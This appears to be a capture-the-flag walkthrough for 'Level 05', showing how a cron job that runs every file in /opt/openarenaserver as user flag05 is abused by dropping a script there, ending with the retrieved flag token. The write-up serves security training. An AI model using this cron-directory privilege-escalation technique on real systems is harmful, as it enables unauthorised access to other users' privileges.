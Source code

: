 ## Level 05: Exploiting a Cron Task Vulnerability

### Goal  
Locate and exploit a vulnerability in a cron task to retrieve the flag for this level.

### Steps

1. **Locate the mail files**  
    Upon login, the following message appears:
    ```bash
    You have new mail.  
    ```
    Use the following command to search for mail directories:
    ```bash
    find / -name mail 2>/dev/null  
    ```
    Output:
    ```
    /usr/lib/byobu/mail
    /var/mail
    /var/spool/mail 
    /rofs/usr/lib/byobu/mail 
    /rofs/var/mail 
    /rofs/var/spool/mail
    ```

2. **List the contents of the directories**  
    To examine the files within these directories:
    ```bash
    ls `find / -name mail 2>/dev/null`
    ```
    Output:
    ```
    /rofs/usr/lib/byobu/mail  /usr/lib/byobu/mail  

    /rofs/var/mail:
    level05

    /rofs/var/spool/mail:
    level05

    /var/mail:
    level05 

    /var/spool/mail: 
    level05 
    ```
    The file `level05` appears in several directories.

3. **Read the content of the `level05` file**  
    Use the following command:
    ```bash
    cat /var/mail/level05
    ```
    Output:
    ```bash
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    ```
    The format `*/2 * * * *` indicates a cron task.  
    - `su -c` is a command to switch users and execute a specific command, in this case under flag05.
    - The line specifies that every 2 minutes, the script `/usr/sbin/openarenaserver` will be executed as user `flag05`.

4. **Examine the script `/usr/sbin/openarenaserver`**   
    To understand its functionality:
    ```bash
    cat /usr/sbin/openarenaserver 
    ```
    Output:
    ```bash
    #!/bin/sh 
    for i in /opt/openarenaserver/* ; do 
        (ulimit -t 5; bash -x "$i") 
        rm -f "$i"
    done
    ```
    The script executes all files in `/opt/openarenaserver` with a 5-second timeout and deletes them afterward.

5. **Exploit the vulnerability**  
    To exploit this, create a file in `/opt/openarenaserver` that runs the `getflag` command:
    ```bash
    echo "getflag > /tmp/flag05" > /opt/openarenaserver/flag05
    ```
    - This creates a file named `flag05` in `/opt/openarenaserver` containing the command `getflag > /tmp/flag05`. 
    - When the cron task runs, the script will execute the command and save the output of `getflag` to `/tmp/flag05`.

6. **Retrieve the flag**  
    Wait for 2 minutes for the cron task to execute and then read the output file:
    ```bash
    cat /tmp/flag05
    ```
    Output:
    ```bash
    Check flag.Here is your token : viuaaale9huek52boumoomioc
    ````
